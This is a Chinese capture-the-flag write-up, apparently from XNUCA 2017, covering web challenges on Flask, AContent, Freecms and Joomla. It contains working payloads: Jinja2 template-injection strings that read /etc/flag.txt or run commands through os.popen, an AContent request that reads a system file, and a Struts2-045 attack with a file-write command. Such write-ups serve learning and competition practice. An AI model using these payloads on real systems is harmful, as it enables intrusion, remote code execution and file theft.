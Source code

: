 `Joomla`

没做出来

## #No.16 来一发flask

`Flask`
```
http://062ed0f9233795319ceac93209b40860.xnuca.cn/invalid{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/flag.txt').read() }}
```
只读了flag，写的部分没有成功
参考链接：http://www.freebuf.com/articles/web/98928.html
ROIS:
```
{{ [].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].popen('id').read() }}
```


## #No.17 简单点

`CMS Made Simpl CMS`

没做出来

## #No.18 “开讲啦”

`Acontent`，查到了cve但是没利用成功
Ph0en1x WriteUp：
[https://chybeta.github.io/2017/08/26/XNUCA2017-%E7%AC%AC%E4%B8%80%E6%9C%9F%EF%BC%9AWeb-writeup/](https://chybeta.github.io/2017/08/26/XNUCA2017-%E7%AC%AC%E4%B8%80%E6%9C%9F%EF%BC%9AWeb-writeup/)
```
http://8d52640a73d8073066c951df0501184a.xnuca.cn/oauth/lti/common/tool_provider_outcome.php
POST:
grade=1&key=1&secret=secret&sourcedid=1&submit=Send%20Grade&url=/etc/flag.txt
```

## #No.19 写个简历吧

没做

## #No.20 SQL注入

也是`Joomla`，没做

## #No.21 Freecms

`Freecms`
Struts2-045直接打`http://cc7777fe6a8ce0d9544b623a0d2961fb.xnuca.cn/login_login.do`
`echo "111" >/opt/apache-tomcat-8.0.44/webapps/ROOT/writeHere/da6afcecd8a4915e67964700d2008d29`

## #No.22 Phpcms_v9
